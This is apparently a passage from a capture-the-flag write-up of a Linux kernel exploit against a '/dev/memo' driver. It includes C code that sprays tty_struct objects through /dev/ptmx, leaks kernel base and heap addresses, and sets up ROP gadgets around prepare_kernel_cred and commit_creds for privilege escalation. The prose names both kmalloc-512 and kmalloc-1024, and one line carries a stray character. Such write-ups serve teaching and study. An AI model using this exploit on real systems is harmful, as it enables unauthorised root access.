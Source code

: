 ```c
    puts("[+] Saved user state!");
}

void Open_and_spray(){
    for(int i=0;i<10;i++){
        ptmx = open("/dev/ptmx",O_RDWR | O_NOCTTY);
        if(ptmx < 0){
            perror("[-] Failed to open ptmx");
            exit(INVALID);
        }
    }
    fd = open("/dev/memo",O_RDWR);
    if(fd < 0){
        perror("[-] Err in memo");
    }
    char buf[0x400];
    memset(buf,0x61,sizeof(buf));
    write(fd,buf,0x400);
    puts("[+] Opened memo!");
    ptmx = open("/dev/ptmx",O_RDWR | O_NOCTTY);
    if(ptmx < 0){
        perror("[-] Failed to open ptmx");
        exit(INVALID);
    }
}
```

As you can see, initially, we spray the `kmalloc-512` by opening `/dev/ptmx` which internally allocates `alloc_tty` structure via `kmalloc-1024` pool. So, when we open `memo` and then allocate another `ptmx`, we get contiguous allocation of `memo` followed by the `tty_struct`.

Now, we can safely get our leaks.

```c
void get_leaks(){
    lseek(fd,0x100,SEEK_SET);
    read(fd,leak_buf,0x400);
    for(int i=0;i<0x400/8;i++){
        printf("[*] leak_buf[%d] -> 0x%lx\n",i,leak_buf[i]);
    }
    kbase = leak_buf[99] - 0xe65900; //ptx_unix98_ops
    kheap = leak_buf[103] - 0x438;
    printf("[+] kbase = 0x%lx\n",kbase);
    printf("[+] kheap = 0x%lx\n",kheap);
    push_r12_pop_rsp = kbase + 0x94d4e3L; 
    pop_rdi = kbase + 0x1268L;
    pop_rcx = kbase + 0x4c852L;
    prepare_kernel_cred = kbase + 0x7bb50L;
    mov_rdi_rax = kbase + 0x19dcbL;
    commit_creds = kbase + 0x7b8b0L;
    kpti_trampoline = kbase + 0xa00a45L;
    ?printf("[+] push_r12_pop_rsp = 0x%lx\n",push_r12_pop_rsp);
}
```
